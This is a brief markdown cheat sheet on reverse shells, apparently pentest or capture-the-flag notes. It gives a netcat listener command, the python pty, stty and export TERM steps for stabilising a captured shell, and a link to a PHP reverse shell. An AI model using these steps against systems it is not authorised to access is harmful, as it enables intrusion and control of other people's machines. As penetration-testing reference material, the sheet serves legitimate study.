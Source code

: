 # Reverse Shell

## Netcat Listener
```console
nc -lvnp [PORT #]
```

## Stabilize your Reverse Shell
```console
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```console
export TERM=xterm
```

Press `CTRL` + `Z`

```console
stty raw -echo; fg
```

```console
stty cols 236 rows 52
```

## PHP Reverse Shell (Pentestmonkey)
[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
